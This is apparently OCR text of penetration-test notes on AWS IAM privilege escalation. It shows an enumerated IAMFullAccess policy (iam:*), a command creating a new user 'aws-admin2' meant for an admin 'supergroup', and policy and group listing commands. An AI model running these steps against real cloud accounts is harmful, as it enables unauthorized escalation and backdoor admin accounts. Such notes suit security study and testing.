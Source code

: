 ```bash
                    "Action": "elasticloadbalancing:*",
                    "Resource": "*"
                },
                {
                    "Effect": "Allow",
                    "Action": "cloudwatch:*",
                    "Resource": "*"
                },
                {
                    "Effect": "Allow",
                    "Action": "autoscaling:*",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v1",
        "IsDefaultVersion": false,
        "CreateDate": "2015-02-06T18:40:15+00:00"
    }
}
```

Enumerate privilege of role
```bash
# 25/03 11:29
ubuntu@ip-10-194-136-21:~$ aws iam get-policy-version --policy-arn arn:aws:iam::aws:policy/IAMFullAccess --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Action": "iam:*",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v1",
        "IsDefaultVersion": false,
        "CreateDate": "2015-02-06T18:40:38Z"
    }
}
```

Create new user and add it to the supergroup
```bash
aws iam create-user --user-name aws-admin2
```

List all policies and all groups
```bash
aws iam list-policies
aws iam list-groups
```
